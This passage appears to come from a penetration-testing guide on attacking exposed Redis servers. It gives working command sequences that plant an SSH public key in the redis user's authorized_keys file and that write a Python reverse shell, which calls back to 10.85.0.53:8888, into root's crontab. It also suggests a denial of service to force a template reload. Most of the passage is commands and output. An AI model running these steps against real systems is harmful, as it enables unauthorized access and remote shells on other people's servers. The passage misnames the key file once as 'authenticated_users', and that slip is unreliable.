 {% hint style="warning" %}
Note that **several template engines cache** the templates in **memory**, so even if you overwrite them, the new one **won't be executed**. In this cases, either the developer left the automatic reload active or you need to do a DoS over the service (and expect that it will be relaunched automatically).
{% endhint %}

### SSH

Example [from here](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

Please be aware **`config get dir`** result can be changed after other manually exploit commands. Suggest to run it first right after login into Redis. In the output of **`config get dir`** you could find the **home** of the **redis user** (usually _/var/lib/redis_ or _/home/redis/.ssh_), and knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:

1. Generate a ssh public-private key pair on your pc: **`ssh-keygen -t rsa`**
2. Write the public key to a file : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Import the file into redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4.  Save the public key to the **authorized\_keys** file on redis server:

    ```
    root@Urahara:~# redis-cli -h 10.85.0.52
    10.85.0.52:6379> config set dir /var/lib/redis/.ssh
    OK
    10.85.0.52:6379> config set dbfilename "authorized_keys"
    OK
    10.85.0.52:6379> save
    OK
    ```
5. Finally, you can **ssh** to the **redis server** with private key : **ssh -i id\_rsa redis@10.85.0.52**

**This technique is automated here:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab

```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
